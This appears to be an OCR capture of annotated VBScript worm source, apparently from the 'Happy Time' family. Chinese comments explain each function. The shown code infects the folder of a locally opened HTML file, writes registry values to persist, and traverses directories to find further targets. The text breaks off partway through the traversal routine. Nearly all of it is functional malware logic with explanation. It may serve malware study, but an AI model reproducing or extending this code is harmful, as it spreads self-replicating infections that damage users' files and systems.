 ```vbscript

' 函数：KJLikeIt() 
' 功能：针对html文件进行处理，如果访问的是本地的或者共享上的文件，将感染这个目录 
Function KJLikeIt() 
' 如果当前执行文件不是"html"的就退出程序 
If InWhere <> "html" Then 
Exit Function 
End If 
' 取得文档当前路径 
ThisLocation = document.location 
' 如果是本地或网上共享文件 
If Left(ThisLocation, 4) = "file" Then 
ThisLocation = Mid(ThisLocation,9) 
' 如果这个文件扩展名不为空，在ThisLocation中保存它的路径 
If FSO.GetExtensionName(ThisLocation) <> "" then 
ThisLocation = Left(ThisLocation,Len(ThisLocation) - Len(FSO.GetFileName(ThisLocation))) 
End If 
' 如果ThisLocation的长度大于3就尾追一个"\" 
If Len(ThisLocation) > 3 Then 
ThisLocation = ThisLocation & "\" 
End If 
' 感染这个目录 
KJummageFolder(ThisLocation) 
End If 
End Function 

' 函数：KJMailReg(RegStr,FileName) 
' 功能：如果注册表指定键值不存在，则向指定位置写入指定文件名 
' 参数： 
' RegStr 注册表指定键值 
' FileName 指定文件名 
Function KJMailReg(RegStr,FileName) 
On Error Resume Next 
' 如果注册表指定键值不存在，则向指定位置写入指定文件名 
RegTempStr = WsShell.RegRead(RegStr) 
If RegTempStr = "" Then 
WsShell.RegWrite RegStr,FileName 
End If 
End Function 

' 函数：KJOboSub(CurrentString) 
' 功能：遍历并返回目录路径 
' 参数： 
' CurrentString 当前目录 
Function KJOboSub(CurrentString) 
SubE = 0 
TestOut = 0 
Do While True 
TestOut = TestOut + 1 
If TestOut > 28 Then 
CurrentString = FinalyDisk & ":\" 
Exit Do 
End If 
On Error Resume Next 
' 取得当前目录的所有子目录，并且放到字典中 
Set ThisFolder = FSO.GetFolder(CurrentString) 
Set DicSub = CreateObject("Scripting.Dictionary") 
Set Folders = ThisFolder.SubFolders 
FolderCount = 0 
For Each TempFolder in Folders 
FolderCount = FolderCount + 1 
DicSub.add FolderCount, TempFolder.Name 
Next 
```